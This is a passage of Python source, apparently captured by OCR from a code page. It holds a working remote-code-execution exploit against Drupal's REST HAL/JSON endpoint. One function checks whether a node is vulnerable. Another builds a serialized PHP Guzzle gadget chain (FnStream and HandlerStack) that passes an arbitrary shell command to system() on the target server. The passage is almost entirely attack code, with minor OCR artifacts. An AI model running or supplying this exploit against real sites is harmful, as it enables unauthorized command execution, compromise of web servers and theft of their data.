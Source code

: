 u = build_url(base, '/node/', str(node_id))
r = requests.get(f'{u}?_format=hal_json', json=payload, headers={"Content-Type": "application/hal+json"})

if check_drupal_cache(r):
    print(f'Checking if node {node_id} is vuln returned cache HIT, ignoring')
    return False

if 'INVALID_VALUE does not correspond to an entity on this site' in r.text:
    return True

return False 
```

def exploit(base: str, node_id: int, cmd: str):

“”"

Exploit using the Guzzle Gadgets

“”"

```
# pad a easy search replace output:
cmd = 'echo ---- &amp; ' + cmd
payload = {
    "link": [
        {
            "value": "link",
            "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000"
                       "GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\""
                       "close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:"
                       "{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";"
                       "s:|size|:\"|command|\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000"
                       "stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000"
                       "GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\""
                       "resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
                       "".replace('|size|', str(len(cmd))).replace('|command|', cmd)
        }
    ],
    "_links": {
        "type": {
            "href": f"{urljoin(base, '/rest/type/shortcut/default')}"
        }
    }
}

u = build_url(base, '/node/', str(node_id))
r = requests.get(f'{u}?_format=hal_json', json=payload, headers={"Content-Type": "application/hal+json"})

if check_drupal_cache(r):
    print(f'Exploiting {node_id} returned cache HIT, may have failed')

